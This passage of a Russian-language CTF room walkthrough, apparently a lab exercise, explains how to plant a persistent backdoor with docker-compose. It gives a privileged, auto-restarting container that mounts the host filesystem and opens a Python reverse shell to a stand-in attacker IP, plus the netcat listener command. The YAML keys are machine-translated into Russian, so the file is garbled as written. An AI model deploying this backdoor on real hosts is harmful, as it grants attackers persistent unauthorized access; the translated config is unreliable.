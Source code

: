   нам обратной оболочки. Использование docker-compose также позволяет нам указывать автоматические перезапуски, что 
  повышает устойчивость бэкдора. Эта опция также меняет на противоположную типичную модель клиент-серверного 
  соединения, поэтому нам не нужно будет открывать новые порты на хосте.
Для реализации последнего варианта добавьте в новый файл docker-compose следующее:

`---
версия : "2.1"
услуги :
  бэкдорсервис :
    перезапуск : всегда
    изображение : ghcr.io/jroo1053/ctfscore:master
    точка входа : > 
       python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
       s.connect(("<ATTACKBOXIP>",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno() ,2);
       pty.spawn("/bin/sh")'
    тома :
      - /:/мнт
    привилегированный : правда`


Это создаст новый контейнер docker, используя образ, который уже доступен в системе, смонтирует всю файловую систему 
хоста в /mnt/контейнер и создаст обратную оболочку с python. Прослушайте соединение обратной оболочки на атакующем 
блоке с помощью:

`nc -lvnp 4242`

Затем запустите службу на хосте с помощью:

`docker-compose up`

После выполнения этих действий у вас должен быть способ доступа к уязвимому хосту без использования SSH, уязвимой 
службы или учетных данных пользователя. Конечно, вы по-прежнему сможете использовать эти другие методы в сочетании с 
docker-compose reverse shell в качестве резервных копий.

### Ответьте на вопросы ниже
Использовать Docker для создания бэкдора на хост-системе

```commandline
Ответ не нужен
```

## Задание 12
Надеюсь, вам понравилась эта комната и вы узнали несколько вещей. Как уже упоминалось, эта комната была первым 
публичным тестом проекта системы подсчета очков CTF, который я разрабатывал. Я приложил ссылку на исходный код 
системы подсчета очков. Она лицензирована по AGPL-3.0, поэтому вы можете свободно изменять ее или добавлять систему 
в свой собственный CTF. В репозитории есть документация по установке и настройке, а также ссылки на готовые образы 
docker.
